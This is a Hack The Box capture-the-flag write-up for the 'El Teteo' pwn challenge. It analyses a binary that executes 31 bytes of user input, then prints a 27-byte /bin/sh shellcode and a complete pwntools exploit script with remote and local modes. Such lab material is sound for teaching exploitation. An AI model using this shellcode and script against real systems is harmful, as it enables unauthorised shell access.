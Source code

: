 ```yaml
---
title: "El Teteo 🔥 - Shellcode Injection Exploit Writeup"
tags: [HTB, binary exploitation, shellcode, stack exec, pwn]
---
```


# El Teteo 🔥

![pwntools](https://img.shields.io/badge/pwntools-✔️-brightgreen)
![Difficulty](https://img.shields.io/badge/difficulty-Easy-blue)
![Category](https://img.shields.io/badge/category-Pwn-orange)
![Challenge](https://img.shields.io/badge/Challenge-red)

El Teteo, a mischievous ghostly djinni born with a party spirit. You have one chance to summon it and make your wish—but only if it’s in the mood to grant it.

## 📚 Table of Contents
- [Binary Protections Analysis 🛡️](#binary-protections-analysis-️)
- [Program Behavior 📟](#program-behavior-)
- [Reverse Engineering 🔍](#reverse-engineering-)
- [Exploitation Strategy 💣](#exploitation-strategy-)
- [Full Exploit Script 🧨](#full-exploit-script-)
- [Exploitation Result ✅](#exploitation-result-)
- [Conclusion 🧾](#conclusion-)

## Binary Protections Analysis 🛡️

Let’s begin by checking the binary’s security protections using `checksec`.

![Checksec output](https://github.com/user-attachments/assets/ceec4776-f279-4c0b-9667-e0cc5f46a2e8)

**Findings:**
- ✅ Full RELRO  
- ✅ Stack Canary found  
- ❌ NX disabled  
- ✅ PIE enabled  
- ❌ No FORTIFY

## Program Behavior 📟

When we launch the binary, this is what it displays:

![Program Launch Output](https://github.com/user-attachments/assets/1a6f190f-eab5-4789-a89a-df1e661e643e)

A spooky looking ASCII pumpkin along with the text:

```
[!] I will do whatever you want, nice or naughty..
```

## Reverse Engineering 🔍

By decompiling the binary using **Ghidra**, we land in the `main()` function:

![Ghidra Decompiled Function](https://github.com/user-attachments/assets/c5c6f27e-8b4f-4be6-823b-84d24b0c2e96)

Two particularly interesting lines:

```c
read(0,&local_68,0x1f);
(*(code *)&local_68)();
```

This reads **31 bytes** from stdin and directly **executes** the buffer as code. 

Since NX is disabled, we can directly inject shellcode into the stack and it will be executed.

## Exploitation Strategy 💣

We need a shellcode that fits within **31 bytes**.

We can use this 27-byte shellcode from [shell-storm.org](https://shell-storm.org/shellcode/files/shellcode-806.html) which spawns `/bin/sh`:

```
\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05
```

## Full Exploit Script 🧨

```python
from pwn import *
import argparse

def main():
    parser = argparse.ArgumentParser(description="Exploit remote or local")
    parser.add_argument("-r", "--remote", help="Remote mode with IP and port", nargs=2, metavar=("IP", "PORT"))
    parser.add_argument("-l", "--local", help="Local mode with a binary", metavar="BINARY")
    args = parser.parse_args()

    if args.remote:
        ip, port = args.remote
        p = remote(ip, int(port))
    elif args.local:
        p = process(args.local)
    else:
        print("Please specify an execution mode (-r IP PORT or -l BINARY)")
        return
    
    shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
    print(f"Shellcode length: {len(shellcode)} bytes")
    
    p.sendlineafter(b'>', shellcode)
    p.interactive()

if __name__ == "__main__":
    main()
```

## Exploitation Result ✅

We run the exploit:

```
$ python3 exploit.py -l ./el_teteo
```

🎉 Result:

![Flag Output](https://github.com/user-attachments/assets/64507c3f-307f-4f7d-8d29-ff92d80662f4)

Flag captured:
```
HTB{f4k3_fl4g_f0r_t35t1ng}
```

## Conclusion 🧾

This challenge was a classic example of a **stack-based shellcode injection** made possible by:
- Disabled NX
- Direct execution of user input (`(*(code *)buffer)()`)

By keeping the shellcode under 31 bytes, we successfully popped a shell and retrieved the flag.

🔙 [Back to Challenge Writeups](../../)
